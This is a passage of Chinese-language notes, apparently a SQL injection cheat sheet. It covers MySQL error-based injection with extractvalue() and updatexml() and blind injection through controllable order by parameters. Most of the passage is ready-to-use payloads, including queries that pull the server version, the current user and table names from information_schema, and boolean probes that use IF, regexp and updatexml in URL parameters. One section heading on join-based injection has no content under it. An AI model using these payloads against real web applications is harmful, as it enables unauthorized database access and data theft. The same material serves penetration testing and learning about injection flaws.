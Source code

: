 ```sql
mysql> select extractvalue(1,concat(0x3a,version())); //有连接字符
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'

mysql> select extractvalue(1,version()); //无连接字符
ERROR 1105 (HY000): XPATH syntax error: '.53'

and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
```

### updateXML报错

updateXML()函数有3个参数，注入过程中第1，3个参数可以为1.第二个参数为要报错的数据，也需要连接其他字符才能得到完整数据。

```sql
语句：
and 1=(updatexml(1,concat(0x3a,(select user())),1))
```

### join报错注入

## MySQL相关

### or(表名)

or(字段名) 会遍历该字段下的之，返回不为false的值，字符串默认为0，即false，字符串内存在数字则为true。
可以用来测试是否存在某一字段名。

### order by 注入

如果order by 参数可控,代表这可以从页面的变化看到sql语句的执行结果,在屏蔽报错,无回显,过滤常用关键字的情况下可以选择盲注,配合脚本

order by子句后面参数为数字或字段名，可以用if判断和返回值进行利用：

- /?order=IF(1=1,name,price) 通过name字段排序
- /?order=IF(1=2,name,price) 通过price字段排序

还可以使用rand()来执行sql语句进行报错注入和延时注入，没有回显是使用盲注。

利用：

```sql
利用regexp
/?order=(select+1+regexp+if(1=1,1,0x00)) 正常
/?order=(select+1+regexp+if(1=2,1,0x00)) 错误

利用updatexml
/?order=updatexml(1,if(1=1,1,user()),1) 正确
/?order=updatexml(1,if(1=2,1,user()),1) 错误  

利用extractvalue
/?order=extractvalue(1,if(1=1,1,user())) 正确 
/?order=extractvalue(1,if(1=2,1,user())) 错误 
```
